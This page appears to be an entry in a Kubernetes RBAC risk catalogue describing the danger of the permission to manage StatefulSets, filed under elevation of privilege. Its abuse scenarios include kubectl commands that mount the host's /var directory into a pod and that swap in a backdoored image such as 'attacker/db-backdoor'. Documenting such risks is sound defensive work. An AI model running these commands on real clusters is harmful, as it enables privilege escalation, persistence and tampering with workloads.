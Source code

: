 ```yaml
---
id: 1038
title: "Manage StatefulSets in a namespace"
description: "Allows creating, updating, or deleting StatefulSets within a specific namespace. This can be used to deploy stateful applications with potentially privileged settings, leading to potential privilege escalation, persistence, and tampering within that namespace."
category: Elevation of Privilege
risk_level: RiskLevelHigh
date: ""
---
```


## Overview

| Field                   | Value                                                                                                                        |
| ----------------------- | ---------------------------------------------------------------------------------------------------------------------------- |
| ID                      | 1038                                                                                                                         |
| Name                    | Manage StatefulSets in a namespace                                                                                           |
| Risk Category           | Elevation of Privilege                                                                                                       |
| Risk Level              | {{< risk High >}}                                                                                                            |
| Role Type               | Role                                                                                                                         |
| API Groups              | apps                                                                                                                         |
| Resources               | statefulsets                                                                                                                 |
| Risky Verb Combinations | [create] · [update] · [patch] · [delete]                                                                                     |
| Tags                    | {{< tag "Persistence" >}} {{< tag "PotentialPrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Allows creating, updating, or deleting StatefulSets within a specific namespace. This can be used to deploy stateful applications with potentially privileged settings, leading to potential privilege escalation, persistence, and tampering within that namespace.

## Abuse Scenarios

1. Create a new StatefulSet with a hostPath mount in the namespace.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: apps/v1
kind: StatefulSet
metadata:
  name: hostpath-statefulset
spec:
  serviceName: "hostpath-service"
  replicas: 1
  selector:
    matchLabels:
      app: hostpath-sts
  template:
    metadata:
      labels:
        app: hostpath-sts
    spec:
      containers:
      - name: hostpath-container
        image: busybox
        command: ["/bin/sh", "-c", "sleep infinity"]
        volumeMounts:
        - mountPath: /host-var
          name: host-var
      volumes:
      - name: host-var
        hostPath:
          path: /var
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Update an existing StatefulSet's image to a malicious one.

```bash
kubectl set image statefulset/<statefulset-name> <container-name>=<malicious-image> -n <namespace>
# Example: kubectl set image statefulset/my-app-db db=attacker/db-backdoor -n production

```
